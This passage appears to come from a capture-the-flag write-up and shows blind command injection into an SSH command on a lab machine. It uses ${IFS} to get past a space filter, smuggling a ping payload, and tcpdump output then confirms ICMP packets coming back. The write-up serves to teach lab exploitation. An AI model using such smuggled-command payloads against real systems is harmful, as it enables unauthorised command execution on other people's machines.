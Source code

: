 There are a couple ways to get whitespace without spaces in a Linux
terminal context. I'll use `${IFS}` as a Bash environment variable that
is a space, and it kind of works:

![](/img/image-20240227104221635.png)

It's making the command:



    ssh -i [key] 0xdf;ping${IFS}-c${IFS}1${IFS}10.10.14.6@localhost



It's interesting that it handles 0xdf as `0.0.0.223`, but not important.
It's failing SSH, and then trying to ping `10.10.14.6@localhost`. So my
command is a bit broken, but it's working. I'll add a comment `#` to the
end:

![](/img/image-20240227105830608.png)

It shows failure, but at my box with `tcpdump`, I see a ICMP packet:



    oxdf@hacky$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    10:57:55.045594 IP 10.10.11.230 > 10.10.14.6: ICMP echo request, id 5, seq 1, length 64
    10:57:55.045627 IP 10.10.14.6 > 10.10.11.230: ICMP echo reply, id 5, seq 1, length 64
